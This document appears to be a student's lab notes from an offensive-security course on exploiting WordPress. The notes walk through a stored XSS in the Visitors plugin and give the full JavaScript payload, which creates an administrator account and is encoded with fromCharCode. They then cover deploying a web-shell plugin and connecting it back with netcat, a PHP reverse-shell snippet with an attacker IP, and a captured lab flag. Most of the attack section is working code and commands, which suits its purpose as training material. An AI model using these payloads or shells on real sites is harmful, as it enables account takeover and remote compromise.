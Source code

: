 
1. Start Walkthrough VM 1 and replicate the steps learned in this Learning Unit to identify the basic XSS vulnerability present in the Visitors plugin.
	   Based on the source code portion we have explored, which other HTTP header might be vulnerable to a similar XSS flaw?
```php
# download Visitor's code from https://downloads.wordpress.org/plugin/visitors-app.0.3.zip
# examine the function VST_save_record()
function VST_save_record() {
	global $wpdb;
	$table_name = $wpdb->prefix . 'VST_registros';

	VST_create_table_records();

	return $wpdb->insert(
				$table_name,
				array(
					'patch' => $_SERVER["REQUEST_URI"],
					'datetime' => current_time( 'mysql' ),
					'useragent' => $_SERVER['HTTP_USER_AGENT'],
					'ip' => $_SERVER['HTTP_X_FORWARDED_FOR']
				)
			);
}
# NOTE:  http headers use '-' rather than '_'
```
>Answer:  X-FORWARDED-FOR


2. Start Walkthrough VM 2 and replicate the privilege escalation steps we explored in this Learning Unit to create a secondary administrator account. What is the JavaScript method responsible for interpreting a string as code and executing it?
```bash
# reread content with regards to sending encoded payload via curl
```

>Answer:  eval()


3. **Capstone Exercise**: Start Module Exercise VM 1 and add a new administrative account like we did in this Learning Unit. Next, craft a WordPress plugin that embeds a web shell and exploit it to enumerate the target system. Upgrade the web shell to a full reverse shell and obtain the flag located in **/tmp/**. Note: The WordPress instance might show slow responsiveness due to lack of internet connectivity, which is expected.
```javascript
// craft new user script
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";    //<--- note
var nonceRegex = /ser" value="([^"]*?)"/g;    //<--- note
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=ack&email=attacker@offsec.com&pass1=attackerpass&pass2=ackpass&role=administrator";    //<--- note
ajaxRequest new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);

// minify via www.jscompress.com
// put into an encoding script
function encode_to_javascript(string) {
                var input = string
                var output = '';
                for(pos = 0; pos < input.length; pos++) {
                        output += input.charCodeAt(pos);
                        if(pos != (input.length - 1)) {
                                output += ",";
                        }
                }
                return output;
        }
        
let encoded = encode_to_javascript('var ajaxRequest=new XMLHttpRequest,requestURL="/wp-admin/user-new.php",nonceRegex=/ser" value="([^"]*?)"/g;ajaxRequest.open("GET",requestURL,!1),ajaxRequest.send();var nonceMatch=nonceRegex.exec(ajaxRequest.responseText),nonce=nonceMatch[1],params="action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";(ajaxRequest=new XMLHttpRequest).open("POST",requestURL,!0),ajaxRequest.setRequestHeader("Content-Type","application/x-www-form-urlencoded"),ajaxRequest.send(params);')
console.log(encoded)

// navigate to about:blank & use Console tab in Dev Tools to run above script
// copy encoded result and use curl to send through to site via proxy
```
```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```
```php
# Login with admin/password
# Navigate to and hover over Visitor's plugin (bottom left pane)
# Click Start
# Login with attacker/attackerpass
# Navigate to Plugins > Add New (it takes awhile to load)
# Craft WP plugin (in php) for reverse shell
# sources for help:
	# https://github.com/leonjza/wordpress-shell
	# https://rioasmara.com/2019/02/25/penetration-test-wordpress-reverse-shell
	# https://pentaroot.com/exploit-wordpress-backdoor-theme-pages
```

OK.  Tried the wordpress-shell from the 1st link up there ^.
Once installed, it's *supposed to* allow you to run the following curl command to get a reverse shell
```bash
curl -v "http://offsecwp/wp-content/plugins/shell/shell.php?$(python2.7 -c 'import urllib; print urllib.urlencode({"ip":"192.168.45.247","port":"5555"})')"
```
HOWEVER, not only did I get a "cannot activate plugin due to fatal error" from the site, I kept getting a "- Connection #0 to host offsecwp left intact" message before being kicked out of the connection.
NOW... after hitting up OSCP's \#support channel & them reverting the machine themselves, I *could* get a response from using the URL to push a nc connection:
```url
http://offsecwp/wp-content/plugins/shell/shell.php?cmd=nc%20<myIP>%20<portOfNcListener>
```
which would only spit back every command I threw at it, but never the output.... only stdin.
But - lightning bolt &&&&&& facepalm moment - this worked
```url
http://offsecwp/wp-content/plugins/shell/shell.php?cmd=cat%20/tmp/flag
```

NOW.  SUPPOSEDLY, editing a theme with the following PHP script and then navigating a new tab to said theme is also supposed to work (see pic below (but replace things like &lt; with < and &quot; with ")):
```php
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip ='192.168.45.247'; // CHANGE THIS
$port = 5555; // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
?>
```

>Answer:  OS{69dd7c20060d54f14b417036379c0637}


![](WP_themeHeader.png)